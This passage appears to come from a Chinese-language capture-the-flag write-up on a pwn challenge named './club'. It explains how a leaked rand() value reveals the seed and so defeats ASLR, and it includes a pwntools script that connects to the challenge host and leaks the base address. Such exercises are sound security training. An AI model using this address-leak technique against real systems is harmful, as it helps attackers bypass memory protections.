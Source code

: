 还有，这个./club也是有ASLR的，所以p_addr的地址不能直接得到，我们逆向一下这个程序的话，发现猜随机数可以获得seed地址，从而可以计算出p_addr。
这个随机数就比较简单了，第一次我们猜错，他会告诉我们第一次的随机数rand()的值，拿这个可以逆推出seed，因为seed是seed的地址取低32位，会有低12位是固定的，所以很容易穷举出来，我是弄了个json。。

```Python
import json
import os

from pwn import *
from subprocess import Popen, PIPE

g_local = True

if g_local:
	sh=process("./club")
	#raw_input("ida has attch? Press any key for continue...")
else:
	sh=remote("123.206.22.95",8888)

def getPrevNum(str):
	i = 0
	while (i < len(str)):
		if (str[i] < '0' or str[i] > '9'):#not digit
			break
		i = i + 1
	return str[0:i]

def get_seed(first_rand):
	f = open("rand_to_seed.json")
	to_seed = json.load(f)
	seed = to_seed[first_rand]
	return seed

def get_scd_rand_from_seed(seed):
	pipe = os.popen( "./get_scd_rand " + str(seed))
	scd_rand = pipe.read()
	pipe.close()
	return int(scd_rand)

def get_scd_rand(first_rand):
	return get_scd_rand_from_seed(get_seed(str(first_rand)))

def six_ops():
#pre: init state, post: ops input
	global sh
	sh.recvuntil("6) exit\n> ")

def get_base_addr():
#pre: in ops input, post: next ops input
#return secret number that is the addr of seed
	global sh
	sh.send("5")#gess number
	sh.recvuntil("> ")
	sh.send("1")#arbitrary number
	sh.recvuntil("The number is ")
	fst_rand = int(getPrevNum(sh.recv()))
	print fst_rand
	sh.send("5")#gess number
	sh.recvuntil("> ")
	sh.send(str(get_scd_rand(fst_rand)))
	sh.recvuntil("You get a secret: ")
	secret = int(getPrevNum(sh.recv()))
	return secret

```